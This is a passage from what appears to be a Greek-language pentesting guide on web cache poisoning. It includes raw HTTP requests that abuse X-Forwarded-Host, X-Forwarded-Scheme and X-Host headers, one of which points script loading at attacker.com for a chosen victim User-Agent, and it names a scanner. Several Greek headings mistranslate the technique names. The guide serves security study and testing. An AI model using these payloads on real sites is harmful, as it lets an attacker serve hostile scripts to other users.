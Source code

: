 ### Χρήση πολλαπλών κεφαλίδων για την εκμετάλλευση ευπάθειών δηλητηρίασης της μνήμης cache στο web <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Μερικές φορές θα χρειαστεί να **εκμεταλλευτείτε πολλαπλές μη-κλειδωμένες εισόδους** για να μπορέσετε να καταχραστείτε μια cache. Για παράδειγμα, μπορείτε να βρείτε ένα **Ανοικτό ανακατευθυντή** αν ορίσετε το `X-Forwarded-Host` σε ένα domain που ελέγχετε εσείς και το `X-Forwarded-Scheme` σε `http`. **Αν** ο **server** δρομολογεί όλα τα **HTTP** αιτήματα **σε HTTPS** και χρησιμοποιεί την κεφαλίδα `X-Forwarded-Scheme` ως το όνομα του domain για την ανακατεύθυνση, μπορείτε να ελέγξετε προς πού θα δείχνει η σελίδα με την ανακατεύθυνση.
```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
### Εκμετάλλευση με περιορισμένο `Vary` header

Αν ανακαλύψετε ότι το **`X-Host`** header χρησιμοποιείται ως **όνομα domain για τη φόρτωση ενός JS πόρου** αλλά το **`Vary`** header στην απόκριση υποδεικνύει **`User-Agent`**. Τότε, πρέπει να βρείτε έναν τρόπο να εξαγάγετε το User-Agent του θύματος και να δηλητηριάσετε τη μνήμη cache χρησιμοποιώντας αυτό το user agent:
```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
### Εκμεταλλευόμενοι την Ατέλειωτη Δημιουργία Προσωρινής Μνήμης HTTP με την Κατάχρηση της Ατέλειωτης Αποστολής Αιτήσεων HTTP

Μάθετε εδώ πώς να εκτελέσετε [επιθέσεις Δημιουργίας Προσωρινής Μνήμης με την Κατάχρηση της Ατέλειωτης Αποστολής Αιτήσεων HTTP](http-request-smuggling/#using-http-request-smuggling-to-perform-web-cache-poisoning).

### Αυτοματοποιημένος Έλεγχος για Δημιουργία Προσωρινής Μνήμης Ιστού

Το [Εργαλείο Ευπαθειών Προσωρινής Μνήμης Ιστού](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) μπορεί να χρησιμοποιηθεί για αυτόματο έλεγχο για δημιουργία προσωρινής μνήμης ιστού. Υποστηρίζει πολλές διαφορετικές τεχνικές και είναι υψηλά προσαρμόσιμο.

Παράδειγμα χρήσης: `wcvs -u example.com`

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
